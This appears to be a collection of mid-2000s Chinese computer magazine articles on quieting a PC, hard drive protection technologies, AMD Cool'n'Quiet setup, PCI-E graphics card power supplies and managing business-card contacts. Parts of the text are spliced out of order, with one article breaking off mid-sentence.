第四次静音是在 N 种尝试都失败后，被逼疯了才想出来的。方法很简单(见图 3)，在卧室和阳台之间，离地 40CM 高度，打了一个空调孔(见图 4)，将电脑主机搬到了阳台，所有连接线通过空调孔连接显示器、电源、键盘、路由器等。同时设置键盘开机。虽阳台有玻璃窗封闭，但总比室内环境恶劣，所以主机垫高 10CM，平时以布遮盖，主机关机后，在室内关闭供主机电源，防止主机漏电、受雷击等。尽管如此，每次打雷下雨都会让我心惊肉跳，-_-!

表 2
| 项目 | 配置 | 散热方式 | 改进后配置 | 改进后散热方式 | 花费 (元) | 减噪效果 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| CPU | 毒龙 600 超频 850 | 酷冷至尊 R71 | 毒龙 600（不超频） | 九州风神 AE-2388+/风扇调速器 | 80+10 | 有效减噪 |
| 电源 | 航嘉冷静王标准版 | 内置式 12CM 散热风扇 | 航嘉冷静王标准版 | 内置式 12CM 散热风扇 | | 无 |
| 显卡 | S3 Savage4/32M | 大型无风扇散热片 | GeForce2 MX 200 | 无风扇散热片 | 获赠 | 无 |
| 机箱 | 普通爱国者机箱 | 自然散热 | 联志服务器机箱 | 自然散热 | 330 | 有效减噪 |
| 硬盘 | 希捷酷鱼 20G | 自然散热 | 希捷酷鱼 20G | | | |
| | 希捷酷鱼 SCSI | 硬盘两块 | 自然散热 | | 增噪 | | |

表 3
| 项目 | 原配置 | 改进的配置 | 寻找途径 | 结论与认识 | 花费 (元) | 减噪效果 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| CPU 风扇 | 九州风神 A-E-2388+/风扇调速器 | 完全静音风扇 | 网络/中发电子城 | 世界上无完全静音风扇 | | 失败 |
| 电源 | 航嘉冷静王标准版 | 无风扇电源 | 网络/中关村/中发电子城 | 中发有小功率无风扇电源 (可多个并联)，鼎好有 250 瓦无风扇电源 | 报价近千元 | 未尝试 |
| CPU 风扇 | 九州风神 A-E-2388+/风扇调速器 | 无风扇 CPU 散热器 | 网络/中关村 | 国内无，韩国有通过热管传送到机箱散热的无风扇套装 | 报价 2000 元 | 未尝试 |
| 低热量 CPU | 毒龙 600 | 使用极低发热的 CPU 可不用风扇 | 中关村 | 可用笔记本 CPU，但无主板配套 | 价格高昂 | 未尝试 |
| 低热量 CPU | 毒龙 600 | 使用 Athlon XP 2500+，降频一半使用，温度降低一半，可不用风扇 | 中关村购买保超 3200+ 的巴顿 2500+ 一颗 | 不开风扇，温度迅速升高，不可摸。“烧”坏主板 | 520 元 | 重大失败 |
| 主板/内存 | 磐正 KT133/384M SD-RAM | 意外“烧”坏 | 中关村购买 8RDA3+ 主板一块及 512MB DDR 内存条 | 北桥有风扇，且 3 个月后竟然巨响，拔除后北桥温高，换新风扇 | 1300 元 | 微效 |
| CPU 风扇 | 九州风神 A-E-2388+/风扇调速器 | 巴顿 2500+ 超频 3200+，需要强力静音 | 中关村购买 TT 火山 10A 散热器 | 铜散热器好贵，风扇噪音稍有增加 | 100 元 | 微效 |
| 电源 | 航嘉冷静王标准版 | 散热器 CPU 超频，3 硬盘，2 光驱引起电源功率不够 静音硬盘 | 中关村购买全汉 FSP300-60THN-P 超静音电源 | 噪音持平 | 250 元 | 持平 |
| 硬盘 | 希捷酷鱼 20G | | 中关村购买希捷 120GB SATA 串口硬盘一只 | 读盘噪音大幅度减少 | 730 元 | 有效 |

表 4
| 项目 | 散热方式 | 改进后配置 | 改进后散热方式 | 花费 (元) | 减噪效果 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 主机 | CPU 风扇、电源风扇、主板北桥风扇 | Athlon XP 2500+ 超频 3200+ | CPU 风扇、电源风扇、主板北桥风扇，机箱半敞开 | 10 元 | 非常有效，关上门窗，几乎无声，可整晚开机 |

表 4 是第四次静音之路的改造项目列表。





## 第五阶段:领悟

至此，静音之路终于走到胜利的终点。我也开始彻底领悟：“电脑主机不一定要放在身边的，把它扔出去，全世界就会一下清静了”。

## 数据的金刚罩——硬盘安全技术全接触

随着硬盘容量的不断增大，数据安全性也越来越受人关注。针对硬盘的安全问题，众硬盘厂商无不使出浑身解数，研发各种数据保护技术。今天，笔者将带您认识这些技术，看看这些技术如何保护您的劳动成果。

### 万物之本——S.M.A.R.T

S.M.A.R.T全称为“Self-Monitoring, Analysis and Reporting Technology”，即“自我监测、分析和报告技术”，它可以说是最基本的数据保护技术，但直到今天您仍可在各类硬盘中见到他的身影，而后来出现的各类硬盘检测技术更是与它有着千丝万缕的联系。

S.M.A.R.T的工作方式并不复杂，它的原理是监控硬盘的各项数值，并对比事先设定的安全值，从而诊断出硬盘的当前“健康状况”。它主要监测以下几个项目：

磁头飞行高度：在硬盘工作时，磁头的飞行高度直接影响着数据的写入和读取。磁头飞行过高会导致数据写入/读取失败，而过低则会撞到盘片。
坏扇区数：坏扇区增加通常是硬盘走向死亡的开始。
ECC数值：ECC的作用是纠正数据传输中错误，而该项则计算究竟硬盘在某个时间段内启动了多少次ECC，因为ECC的频繁启动象征着硬盘出现了问题。

Spin-Up时间：汽车从启动到正常开动需要一定的时间，车况越佳则这个时间越短。硬盘也一样，Spin up time表示盘片从开始旋转到读取数据的时间，S.M.A.R.T可以通过监测该数值来推算出硬盘马达和磁头是否出现了问题。

温度：高温是诱发硬盘故障的重要因素，而且硬盘机械部件的老化也会增加硬盘在工作时的发热量，因此S.M.A.R.T把该项列为监控项目也就不足为奇了。

数据吞吐量：人生病时劳动能力的肯定会变弱，硬盘也一样，所以通过监控硬盘数据吞吐量也能检测硬盘是否“生病”了。

需要注意的是，目前主板BIOS的S.M.A.R.T选项大多预设为“关闭”，您需要自行开启相关选项后才能享受该功能的便利，该选项一般位于“Advanced BIOS Features”中。此后，S.M.A.R.T一旦检测出硬盘出现了故障，那么开机时便会如下的提示，赶快备份数据。遇到这种提示时，您大可不必慌张，先检查散热和电源方面的问题，然后再做定论。

```
Award Medallion BIOS v6.0, An Energy Star Ally
Copyright (C) 1984-2000, Award Software, Inc.

ASUS P3V2-M ACPI BIOS Revision 1008B1

Intel(R) Celeron(TM) 900 MHz
Memory Test : 131048K OK + 1024K shared memory

Award Plug and Play BIOS Extension v1.8A
Initialize Plug and Play Cards...
PNP Init Completed

Trend ChipAwayVirus(R) On Guard

Detecting Primary Master ... MAXTOR 4K040H3
Detecting Primary Slave ... None
Detecting Secondary Master ... None
Detecting Secondary Slave ... None

SMART Failure Predicted on Primary Master : MAXTOR
WARNING: Immediately back-up your data and replace
A failure may be imminent.

Press F1 to continue, DEL to enter SETUP
11/38/2001-i815E-ASUS-1008B1
```

当然，平时您也可以用EVEREST之类的软件查看S.M.A.R.T信息。这些软件通常会给出很多项目，您完全不必理会软件给出的数值，直接查看“状态”就可以了。除此之外，硬盘厂商提供检测软件也能读取S.M.A.R.T信息，准确度通常也会更高。

### 温度监控

众所周知，高温对硬盘有着致命的影响。于各大硬盘厂商纷纷在S.M.A.R.T的基础上加入了一些高温保护技术，比如通过检测硬盘的温度来确定最佳写入时间等。而高端的万转硬盘还会加入硬件级的温度控制技术，如硬盘马达上的风扇和表面散热片的设计等，这些技术都可以保证硬盘远离高温。
硬盘的最佳工作温度通常在5℃～55℃之间（这是指盘体温度，低温也会成为硬盘的杀手，这点很容易被人所忽略），而目前硬盘30000～40000万小时的MTBF（平均故障间隔时间）则大多在45℃度左右的环境下测得。前面说过S.M.A.R.T包含温度检测的项目，因此您可以通过一些软件读取硬盘的温度信息。笔者在这里向您推荐HDD Thermometer这款免费的硬盘温度检测软件，它可以常驻后台，实时向您报告硬盘当前的温度。

### 硬盘抗震技术

震动可以说是硬盘的大敌，各大硬盘厂商无不在“抗震”设计上弹精竭虑。而硬盘的抗震能力也由当初的150G，提升到现在的350G，甚至是500G以上（微硬盘）。目前的硬盘抗震技术的发展朝两个方向发展：
磁头加载技术：传统硬盘在停止工作时，磁头总是停留在盘片起停区（CSS）。这个区域虽然不放数据，但一旦震动来临，磁头还是有可能会撞击盘片。于是磁头加载技术应运而生，这项技术出现于1997年左右，当时最先用于IBM的TravelStar笔记本电脑硬盘上，目前广泛用于日立和易拓的3.5英寸硬盘和大多数小型硬盘中。另外，磁头加载技术不但可以加强硬盘的抗震能力，而且还能增加硬盘的数据存储空间（因为没有了CSS区）和减小发生磁头“粘”在盘面的机率。
在具备磁头加载技术的硬盘内部，磁盘的右下角会有一个架子。当硬盘停止工作时，磁头就会自动回到这个架子，并被锁定，一旦震动来临，磁头也不会打在盘面上。当然，这只是静态保护，因为这项技术对工作中的磁头无法起到保护作用，而工作中的磁头又是最脆弱的。针对这样的问题，IBM又先走了一步，提出了APS技术。这个技术通过硬件层来监测笔记本的横纵加速度，让硬盘在遭受震动时自动把磁头收回到磁头加载区，并锁住磁头，从而有效避免了因磁头与碟片的碰撞而造成的损伤，该技术已经用于IBM的高端笔记本电脑中。
减轻磁头的重量：减轻磁头的重量一直是硬盘厂商努力的方向之一。我们都知道物体越重则落地时的撞击力就越大，磁头也是如此。当震动发生时，较轻的磁头肯定更难撞到盘片，就算撞了其损害也会比重量的磁头小很多。不过，由于减轻磁头重量涉及材料领域，不太容易突破，因此目前的硬盘厂商开始把目光投向优化磁头和磁头臂的结构方面。

### 小知识

突然断电会不会损坏硬盘？
目前的很多品牌机都没有Reset键，因此死机后只能通过强制关机来解决问题，很多人也开始担心这样会不会对硬盘造成损害。其实是不会的，因为目前的硬盘在停止工作时磁头都会自动滑向在CSS区，从而避免磁头刮伤数据区。不过，假如您在强制关机后再重新启动，期间最好间隔30秒以上。
（广东 Wincat）

## AMD64位处理器的避暑山庄

### 什么是Cool 'n' Quiet

AMD处理器一直以高性价比广受用户欢迎，但其高发热量和高耗电量也使许多心仪AMD产品的用户望而却步，因此，针对AMD平台的散热技术就凸现得尤为重要。2002年，AMD在其新型处理器Athlon XP上使用了一种低耗电技术——“清凉安静技术（Cool 'n' Quiet Technology，以下简称Cool 'n' Quiet）”。这项技术可以根据处理器的具体运算负荷大小自动改变自己的频率，从而降低处理器的发热量，减小CPU风扇的转速和噪音。
但是，该项技术在当时仅应用到它的OEM CPU中，所以普通的消费者很少见到。直到AMD推出Athlon 64处理器，才全面使用Cool 'n' Quiet技术，目前绝大多数Socket939/754的Athlon 64 CPU都支持它。Cool 'n' Quiet技术可自动调节处理器的工作频率，搭配测温元件，自动调整散热器风扇，达到降温静音的效果。它与Intel Pentium-M中所使用的SpeedStep技术和Transmeta Crusoe中的LongRun技术基本相似。
另外国外许多知名网站测试也显示，开启Cool 'n' Quiet功能后，在CPU负载接近0%时，Athlon 64 3400+由2.2GHz降频成800MHz；而当系统负载上升后，CPU频率也跟着上升，回到2.2GHz，完全不影响用户使用。

### 如何才能实现Cool 'n' Quiet Technology技术

首先，处理器必须支持这项技术，查看印在CPU顶部的序列号。在CPU顶部，AMD Athlon下有三行字符。找到第一行的13个字符和其中的最后一个字符。最后的字符若为“O”或在“O”之后（例如P、Q、R等），则表示此CPU支持Cool 'n' Quiet功能。相反，若最后一个字符在“O”之前，则表示此CPU不支持Cool 'n' Quiet功能，见图1。而且必须使用AMD原装风扇。
另外，如果要使用Cool 'n' Quiet技术，除了处理器本身支持之外，还需要主板支持。K8主板都能支持Cool 'n' Quiet，比如：华硕的K8V Deluxe、技嘉的GA-K8VT800M等。

### 实例解析实现Cool 'n' Quiet技术

一台计算机的基本配置如下：AMD Athlon 64 3400+处理器、GA-K8VT800M主板，现在想使用Cool 'n' Quiet技术。具体实现方法如下：首先必须从AMD的网站下载CPU驱动程序（http://www.amd.com/us-en/Processors/TechnicalResources/），下载安装后，打开控制面板中的电源选项，将电源选项中的电源使用方案设置变更为最小电源管理。
重新启动计算机，进入主板BIOS设置，选择“Advanced→CPU Configuration”，进入“AMD Cool && Quiet Configuration”，选择“Enabled”，保存并退出，就在主板BIOS中打开了Cool 'n' Quiet技术。



### # Cool'n'Quiet / PowerNow! Dashboard

另外，AMD还推出了可以显示支持 Cool'n'Quiet/PowerNow!技术处理器工作电压、工作频率和功耗状况的软件——Cool'n'Quiet / PowerNow! Dashboard，见图2。这个软件支持Windows 98SE、Windows Me、Windows 2000、2003和XP以及64bit Windows操作系统。Cool 'n' Quiet / PowerNow! Dashboard以图形显示处理器工作电压、负荷、工作频率百分比等等信息（下载地址：http://www.amd.com/us-en/assets/content_type/utilities/PowerNowDashboard_setup.zip）！



CPU驱动程序升级后，打开控制面板中的电源选项，将电源选项中的电源使用方案设置变更为最小电源管理，Cool 'n' Quiet就生效了！

（天津 王磊）

### # 硬盘“失踪”，谁之过？

魔兽世界真精彩，以至于对网络游戏不屑一顾的我也深陷其中不能自拔。可是，在近两个通宵之后，不知是电源还是家里的市电问题，机器毫无先兆地Shutdown了。更可恶的是，恢复电力、电脑重新启动之后，硬盘竟然“失踪”了。这是怎么回事呢？我的120GB希捷硬盘才买了半年，应该不会就这么“归西”了吧？天！……

不管那么多，先检查一下！再次重新启动，在自检画面中，按下Del键进入BIOS的“Standard CMOS Features”(见图)检测当前系统所连接的硬盘，但不论我怎么设置，还是找不到硬盘。



BIOS没有检测到任何IDE设备

情急之下，立马给老鸟电话求救。老鸟说在某些情况下(如突然停电)会造成BIOS的硬件设备信息丢失，可通过主板上的ClearCMOS跳线(跳线的具体位置和跳线方法因主板而异，但在主板说明书上都有详细说明)来重置BIOS信息解决问题。很不幸，这个方法在试验多次之后，宣告失败。万般无奈之下，惟有用最复杂的替换法进行检查了。于是断开电源，将硬盘拆下，拿到朋友家检查，以确认是否问题出在硬盘上。一开机，不但能正确辨认我的硬盘，还能进入很久没用的Windows 98系统(编者注:笔者用的是Windows 98+XP的双系统，因为在更换主机之后进入Windows XP很有可能会因为主板芯片组的不同而造成系统蓝屏崩溃的问题，所以这个时候进入Windows 98会安全很多)，这说明我的硬盘是没有问题的。那到底问题出在哪里呢？电脑能正常开机，而且在自检的时候，就只有硬盘不能被检测到，这是怎么回事呢？

拿回家，再装上硬盘，开机再次进入BIOS，竟然一切恢复正常，硬盘被再次检测到了。真神了！这是为什么？马上上网，在各大IT网站的论坛发帖子求解。最后在网友的指教下才得知，目前很多主板都带有主板保护电路，特别是采用Intel 865、875系列芯片组的主板一般都会采用这种保护设计。该电路的特点就是在电脑遭遇突然间断电等会造成主板电路有过高电流产生的状况时，对主板、硬盘、内存等配件进行保护。在保护状态下，即使是主机电源恢复重启，其光驱、硬盘等配件都会处于保护锁定状态下，这样就会出现硬盘、光驱等存储数据的配件不能正确辨认的问题。而要解除该保护电路的锁定状态，只需要彻底断开电源(关机后拔掉电源线，更保险一点的就是再按一下开机按钮)几秒中，然后再接上电源开机即可。

(CICI)

### # PCI Express 显卡 = 吃电怪兽？

PCI Express显卡自从去年推出以来就一直成为了高性能显卡的代名词，可是同样给人们留下深刻印象的还有PCI-E显卡的强大功耗。nVIDIA曾经建议大家在使用Geforce 6800 Ultra的时候搭配480W电源的夸张举动想必给不少朋友留下了深刻的印象。但是PCI-E显卡真的需要那么高的供电吗？笔者和大家一样，都在寻找答案。最近，笔者在浏览国外的一些硬件网站时，得到了一些不同的答案！在面对不同的声音你将如何选择和自己PCI-E显卡搭配的电源呢？笔者自己也有块Geforce 6800 Ultra，经过一段时间的使用，笔者想把PCI-E显卡的供电经验说给大家听，希望能够对各位朋友有所帮助。

## 国外网站测试得到的显卡功耗

在做评论之前，还是让我们来了解一下显示核心的功耗吧。由于显卡功耗曾经一度被人们忽视所以居然很多显示核心的白皮书上甚至都找不到精确的功率描述。于是广大爱好者都只能自己想办法来测试。笔者参考了xbit的电阻测试法的结论，尽管他们测试的GeForce 6800都是AGP版的，但是无论AGP还是PCI-E的，最起码其核心是相同的，所以他们的测试结果基本可以采纳。详情请看下面的站点：
http://www.xbitlabs.com/articles/video/display/ATi-vs-nv-power.html

从国外兄弟们的测试结果上看，我们几乎可以欢欣鼓舞地宣布PCI-E显卡基本不需要大功率电源。因为即使是Geforce 6800 Ultra那样的吃电怪物在超频后的最高工作电压也仅有76.55W，看来一个300W电源似乎也足够了。附表是国外站点的测试结果。

### 附表

| 显卡型号 | 默认核心频率/显存频率 | Min | Max | 超频核心频率/显存频率 | Min | Max |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| GeForce 6800 Ultra | 400/1100 | 29.28 | 72.09 | 440/1250 | 30.60 | 76.55 |
| GeForce 6800 GT | 350/1000 | 23.41 | 55.39 | 420/1150 | 24.76 | 64.35 |
| GeForce 6800 | 350/700 | 16.96 | 38.88 | 375/900 | 18.03 | 40.38 |
| RADEON X800 XT | 525/1150 | 17.62 | 63.23 | 550/1250 | 18.43 | 65.88 |
| RADEON X800 Pro | 475/900 | 14.98 | 48.2 | 630/1180 | 22.31 | 55.47 |

假如单从功率上看，似乎没有问题。让我们来简单的算算一台SLi系统的功率。P4或者Athlon 64的功耗大约110W左右、主板加双通道内存大约是40W左右、硬盘15W左右、DVD刻录光驱30W左右、GeForce 6800 Ultra显卡两块大约为144W、所有机箱内的散热设备大约也是30W；以上所有项目总和也只有380W。而且在DVD刻录光驱不工作的时候实际功率要远远低于30W，所以这样的SLi系统搭配400W电源也就差不多了。虽然前面提到的SLi系统可以仅靠一个400W电源就解决问题。这仅仅是简单的将功率相加。要真正了解电源是否能够满足PCI-E显卡的需要还要具体问题具体分析。

## PCI-E 显卡供电分析

由于PCI-E显卡取代AGP显卡的潮流不仅仅是显卡框架的变迁，而伴随是整个PC平台的进化而一同更替的。所以要谈PCI-E显卡的供电就不能够抛开LGA775平台、K8平台和ATX 2.0电源标准来谈。当显卡从AGP过渡到PCI-E之后，为了满足更高的功耗，PCI-E在插槽的最前端的供电部分下了很多功夫，五根+12V金手指、三根+3.3V金手指和一根+3.3V待机为PCI-E接口提供了高达75W的电能。在供电电压的选择上面，PCI-E主要靠+12V供电，去掉了+5V供电，保留了+3.3V供电。而为了满足更高的供电要求，电源的变革也和显卡的变革一起伴随着新PC平台的更迭做出了改进。24Pin的ATX 12V 2.0电源标准取代了20Pin的ATX 12V 1.3电源标准(见图1)，英特尔制定的ATX 12V 2.0标准除了24Pin接口里面多余的4Pin通过金手指给PCI-E插槽供电之外，还规定了必须要有6Pin的单独接口给PCI-E显卡供电。在6Pin供电方面一些厂商采取了用两个4Pin光驱供电接口来代替6Pin的独立供电接口，比如笔者手上的这块GeForce 6800 Ultra。



### 双路12V输出很重要

以上所提到的只是ATX 12V 2.0在外观上相对于ATX+12V 1.3电源的变化，ATX 12V 2.0电源规范相对于ATX 12V 1.3电源规范最大的特点就是2.0版的电源有两路+12V输出。LGA775和K8平台的电脑对+12V输出的需求不但非常大，而且质量也要求更高。根据nVIDIA官方公布的数据表示GeForce 6800 Ultra的功率高达100W以上(和前面的测试结果并不一定矛盾，也许nVIDIA描述的是峰值功率)，无论是英特尔还是AMD的CPU功率也都提高到了100W以上；更要命的是新平台下无论CPU还是显卡都是主要依靠+12V供电，显然一路+12V最大18A电流的供电能力显得捉襟见肘，因此两路+12V输出理论最大能够提供36A电流的ATX 12V 2.0标准电源可以保证在系统对+12V输出过大时保障供电充足。

### 没有双路12V输出会有什么问题？

那么假如我们用转接线将400W的20Pin ATX 12V 1.3标准电源用转换线转换为24Pin口## 英特尔赛扬处理器家族七年回首一顾

## 什么是英特尔赛扬处理器家族？

英特尔赛扬处理器是英特尔面向经济型电脑市场推出的产品。自1998年推出以来，英特尔已向120多个国家发运了上亿枚赛扬处理器。英特尔在制造高质量、可靠微处理器方面有着30多年的丰富经验，可以为英特尔赛扬处理器提供强大支持。如今，英特尔赛扬处理器仍然是那些注重价值的用户的理想选择。

## 什么是英特尔赛扬 D 处理器？

英特尔赛扬 D 处理器家族基于90纳米制程之上，为台式机平台带来了业经验证的技术与超凡价值的最佳平衡。

## 什么是英特尔赛扬 M 处理器？

英特尔赛扬 M 处理器家族构建于专为移动计算设计的架构之上，在时尚轻薄的笔记本电脑外形设计上实现了出色移动处理技术和超凡价值的平衡。

## 包括哪些特性？

英特尔赛扬 D 处理器基于90纳米制程之上，采用LGA775封装，具有高级动态执行技术以及带有256KB二级高速缓存的533MHz多总线系统。该处理器支持英特尔病毒防护技术和英特尔的SIMD流指令扩展（SSE）、SSE2和SSE3。英特尔赛扬 D 处理器还兼容现有的英特尔架构软件，并且支持英特尔915和910GL高速芯片组的支持。此外，英特尔还将于今年后期针对64位计算发布支持英特尔64位扩展技术的英特尔赛扬 D 处理器。

## 赛扬历史回顾

1971年11月，英特尔推出了由3名英特尔工程师发明的全球首枚商用微处理器——4004。而现在通常会有200多名工程师负责某一处理器的开发。

依照当今的标准来看，4004非常简单，它仅具有2300个晶体管，每秒钟执行60000次计算。英特尔预计，25年后微处理器将成为最复杂的大规模生产产品，将拥有550万个晶体管，每秒能够执行数亿次计算。

经济型台式机平台发布时，采用了英特尔赛扬处理器266MHz和总线速度仅为66MHz的英特尔440BX芯片组，没有二级高速缓存。当时尚未出现集成音频和视频等配置。而如今，经济型台式机平台采用了带有256KB二级高速缓存的英特尔赛扬 D 处理器3.06GHz，具备非常强大的性能。该平台还包括英特尔915或910GL高速芯片组，可支持众多特性，例如借助英特尔高清晰度音频带来影院级超凡音效，以及借助英特尔图形媒体加速器（GMA）900带来增强的视频效果。

## 硬盘是完全封闭的吗？

首先，要说明硬盘是非常精密的东西，其磁头飞行高度与盘片表面相距仅有1/1000000英寸，而几乎任何尘埃都要比这个尺寸大，所以只要进入了一点灰尘，硬盘就有可能划伤盘片或磁头。不过不必担心，这种颗粒进入硬盘的可能性几乎不存在，当然这也不表示硬盘就是完全封闭的……

现在几乎所有的书里都告诉大家硬盘是完全密封的。但只要你注意观察硬盘，就会发现任何一块硬盘的盘体上都会有一个孔，它的名字叫“呼吸孔”。一般“呼吸孔”位于硬盘上面（没有电路板的那面）或硬盘侧面。

当硬盘转动后，磁头臂电机、主轴（磁盘）电机转动及盘片和盘腔内空气摩擦，都会产生大量热量，从而导致盘腔内气压升高。这时，如果不释放盘腔内膨胀的空气，保持内外气压平衡，那么很可能就会出现盘体变形，严重时还会出现“崩盘”。所以任何硬盘都会有这个呼吸孔，用来释放膨胀的空气。另外，当硬盘停转后，热源消失，盘腔内气压降低，呼吸孔又将外界空气引入以平衡内外气压。

不过你可不要以为呼吸孔只是简单的在盘壳上钻个洞，它是经过特殊过滤处理机制的。呼吸孔下贴有专用的过滤材料层，并且盘体对应的部分也有一个网格状的空气隔离装置，这在一定程度上阻挡了空气直接进入盘腔中心。但不管采用的是何种过滤方法，硬盘内部与外界也不是完全隔离的。也有些比过滤材料更细微的尘埃照样会从呼吸孔进入盘腔。所以说硬盘内部也不完全就是真空，超净环境。

不过也正因为有过滤环节，一般的灰尘无法进入硬盘内部，所以盘片及磁头并不会很轻易地被毁坏。另外，不管是盘片还是磁头，它们都有用于自我保护的设计。比如盘片上覆盖的磁介质并不是直接和盘腔内部空气接触的，在其表面还有一层质地坚硬而且光滑的石墨涂层（一般和磁介质层厚度相当）；与盘片一样，磁头也有一些特殊设计，真正的读写头都在磁头的前端，而和盘片接触的部分，中间也有一个用于缓解摩擦的非常光滑、非常细微的凸起，因此真正的读写头受损伤可能性很小。

现在你应该明白了，硬盘并不是完全封闭的了吧。



## 几个建议

笔者在这里奉劝各位使用 GeForce 6800GT 和 ATI X800 PRO 以上的 PCI-E 显卡的读者最好使用 400W 以上的 ATX 12V 2.0 标准电源；而使用 GeForce 6600GT 和 ATI X700 的朋友虽然可以使用 350W 的 ATX 12V 1.3 标准电源，但是最好还是使用 350W 的 ATX 12V 2.0 标准电源；至于使用 GeForce 6200 和 ATI X300 的用户来说，一个优质的 350W ATX 12V 1.3 标准电源就可以满足你的需要。当然了，假如你是准备使用 SLI 和 3D1 的富裕玩家的话，笔者还是希望你能够顺便多买上一个 400W ATX 12V 2.0 来专为显卡供电。

电源来给这样的高档 PCI-E 平台显卡供电会出现什么问题呢？虽然 ATX 12V 1.3 标准理论上最多可以提供 18A 的电流，但在实际应用中能够提供稳定的 +12V 供电达到 14～15A 电流的电源就不错了。单块 GeForce 6800 Ultra 显卡需要 +12V 输出至少 4.5A 的电流，完全要靠 +12V 供电的 Athlon64 FX-51 功耗也高达 110W，不算电路转换损耗也需要 +12V 输出将近 9A 的电流，再加上电脑系统中光驱、硬盘等需要 +12V 供电的设备，+12V 没有 18A 以上的输出是根本不可能带起来的，即使是这还没有考虑到硬盘和光驱里的直流电机在系统启动那瞬间将数倍增长的电流需求和电路转换损耗。在 ATX 12V 1.3 电源标准下，400W 以上的大功率电源 +12V 输出并没有什么实际的改善，多余的功率都集中在了 +5V 和 +3.3V 上。这样的电源在 +12V 输出电流超标工作的情况下，不但供电线路损耗非常大，而且 +12V 输出电压也变得非常不稳定。而且考虑到我们国家南方夏天会出现用电高峰的情况，你真的能够保证电源使用的居民电网的电压不低于 220V 吗？这样重压下的供电环境轻则导致系统不稳定，重则可能对显卡、CPU、硬盘和光驱等主要依靠 +12V 供电的设备造成硬件上的损害。而质量比较好的 400W ATX 12V 2.0 标准电源每路 12V 都可以独立输出 14A 的电流，这就很大程度上避免了显卡和 CPU 争抢 +12V 输出电流。

## 名词解释

3D1 是技嘉的“双核心”显卡代名词。但已经成为了目前市面上各种“双核心”显卡的代名词。它是在一块显卡上集成了两个显示核心（GPU），由此得到更强的性能。这种显卡目前市面上并不多见，但几个名牌大厂都有生产，如技嘉 3D1-68GT。



## 十分钟，告别通讯簿管理的石器时代

看着厚厚一摞名片，想要找个联系人就像考古工作，在桌面挖地三尺只为一个电话号码。也不知道谁发明了名片册，可帮了我一个大忙，考古工作进展顺利。不过要查个地址，发个电子邮件，还是得一页一页“刀耕火种”。看完这篇文章，让我们共同告别通讯簿管理的石器时代吧。

### 三条捷径录名片

#### 捷径一：使用名片扫描仪

资金投入：700 - 1600元不等
方便程度：专业设备，非常方便
名片扫描仪一般售价只在千元左右，除了一款小巧的扫描仪之外，还会附带专门的管理、处理软件。正确连接扫描仪到电脑之后，只要安装好随机软件，就可使用。其原理其实很简单，实际上就是一台微型扫描仪，将名片扫描下来，通过OCR之类的软件将图形转换成文字数据，并输入数据库。但它具备更强的针对性，将图形、文字辨识的范围缩窄到名字、E-mail、地址、电话等范围，所以在功能上与普通的扫描仪和OCR软件还是有很大区别的。

**小提示**
目前的名片越来越追求个性化，许多人使用了彩色名片，但这却给名片扫描仪带来了不少烦恼，根据我们测试发现，即使是可扫描彩色的高档名片扫描仪对于色彩过于复杂或者深色的名片也常常无能为力。

#### 捷径二：普通扫描仪录入名片

资金投入：1000元左右，也可以利用现有设备
方便程度：半专业设备，比较方便
除专门的名片扫描仪外，现在不少普通扫描仪也带名片扫描功能，比如市场价低于1000元的明基BenQ Q60扫描仪就自带了名片管理解决方案，使用相当方便。更有第三方软件可直接在普通扫描仪上实现名片扫描、管理的功能。如“名片经理”软件，其试用版可在官方网址(ftp://211.97.134.16/admin/OEMVersion/BizcardFinder_OEM_2.0.zip)下载到。其界面和前面的图2类似，在软件的“设置”菜单的“扫描仪设置”弹出项中选择当前使用的扫描仪，然后在“文件”菜单中选择“扫描”，就进入扫描仪界面中。将名片放入扫描仪，在扫描中，将扫描色彩设置为黑白，扫描dpi设置为300，再执行扫描功能，名片就能自动扫描了。用普通扫描仪扫描名片的优点是扫描分辨率更高，文字识别能力也更好；缺点则是扫描过程更繁琐，速度更慢，而且由于扫描分辨率更高，所以扫描出的图片容量更大，对系统的性能要求更高。

#### 捷径三：可拍照手机也能录入名片

资金投入：约等于0（如果我们的手机带了摄像头）
方便程度：有点DIY，但也并不复杂
带摄像头的手机已经非常普及，只要手机上拍摄的照片能导入电脑，就可以借助一些可以将图片转换为文本的软件来实现名片电子化。比如目前售价188元的“文通新版慧视”软件就提供直接将图片扫描成电子名片的功能，而且对照片的拍照质量要求也不是很高。由于此软件为商业软件，并无试用下载，在这里也不做过多介绍，有需要的读者可到这个网址(http://www.wintone.com.cn/)查询。

### 合并各自为政的通讯簿

不管我们用的是什么方式录入名片，到了最后都只能在特定的软件中使用和管理，虽说每种软件都有自己完善的管理系统，但不能通用却是最致命的缺点。通讯簿如果不能在各种环境地方便调用，那我们仍然停留在石器时代。

#### 1. 通讯录在哪里？

如果你使用Outlook Express（以下简称OE）可以在OE的安装文件夹（C:\Program Files\Outlook Express\Wab.exe）中找到通讯录。而在Windows的“开始→程序→附件”菜单中也有它的快捷方式。此外，通讯簿也是Windows独立的一个组件，能够脱离OE运行。

#### 2. 创建你的“通讯簿”

第一步：在OE中单击工具栏上的“通讯簿”图标来打开通讯簿。更快的则可以在“开始→运行”中，输入“wab”（回车），即可打开“通讯簿”；
第二步：单击“新建”按钮打开下拉菜单，选择“联系人”，在“姓名”选项卡中输入姓名、电子邮件地址等信息，为通讯簿建立联系人；

**小提示**
★输入电子邮件地址时，可输入多个E-mail。
★除填写姓名和电子邮件外，在“其他”选项卡中，也可以输入该朋友的其他信息，比如家庭及单位地址、电话、传真、IP电话、网址、会议信息、生日等信息。

#### 3. 将名片导出到通信簿

还是以“名片经理”软件为例，第一次导出名片时，打开“文件→数据导出→电子名片(vCard)”，然后选择“对所有名片进行通信”，在新窗口就可将所有名片存储为一个vcf文件。然后在通讯簿中单击“文件→导入→名片(vCard)”打开刚才由“名片经理”生成的vcf文件，按照系统提示就能导入所有名片，并应用于通信工作中。如果是新扫描的名片导入，只需要在“名片经理”中选择指定名片，导出时选择“对选择的名片记录进行通信”，重复以上步骤，就可导入新名片。

#### 4. 联系人分组方便管理

录入通讯簿后如果把所有联系人信息都存放在一起，查找和使用起来会很不方便，因此有必要为他们分组，将家人、朋友和商业伙伴区别开来。
